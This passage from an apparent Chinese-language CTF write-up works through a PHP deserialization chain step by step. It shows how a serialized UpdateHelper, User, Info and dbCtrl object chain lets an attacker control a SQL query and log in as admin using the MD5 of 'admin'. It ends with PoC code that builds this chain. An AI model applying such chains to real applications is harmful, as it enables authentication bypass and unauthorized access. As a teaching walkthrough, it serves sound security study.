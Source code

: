 能！

那这sql语句是咋进来的呢？

传进来的

从哪里传进来的呢？

从login参数传进来的

咱们上面调用login时的参数是啥呢

是$this-&gt;CtrlCase-&gt;login($argument[0])的$argument[0]

$argument[0]是啥呢？

$this-&gt;age！

谁的this-&gt;age呢

Info对象的

哪里来的Info对象呢

User对象里面nickname属性被赋值了Info对象！

User对象咋来的呢？

UpdateHelper对象里的sql属性被赋值了User对象！

UpdateHelper对象怎么来的呢？

我们自己实例化后，再变成序列化字符串传进去的，传到update.php里执行了update方法被反序列化函数还原出来的！

那咱们能控制sql语句不！

能！

那什么sql语句能查询出admin的md5呢？

select  “21232f297a57a5a743894a0e4a801fc3”;

那这里语句还需要查个idResult出来呢？

[![](https://p1.ssl.qhimg.com/t0114a00bb4fc2e5c82.png)](https://p1.ssl.qhimg.com/t0114a00bb4fc2e5c82.png)

select  “1” , “21232f297a57a5a743894a0e4a801fc3”;

好了poc第三版有了

```
$user = new User();

$user-&gt;nickname = new Info("", "");

$user-&gt;age = 'select "1", "21232f297a57a5a743894a0e4a801fc3"';



$db = new dbCtrl();

$db-&gt;password = "admin";

$db-&gt;name = "admin";

$user-&gt;nickname-&gt;CtrlCase = $db;



$payload = new UpdateHelper("", "");

$payload-&gt;sql = $user;
```
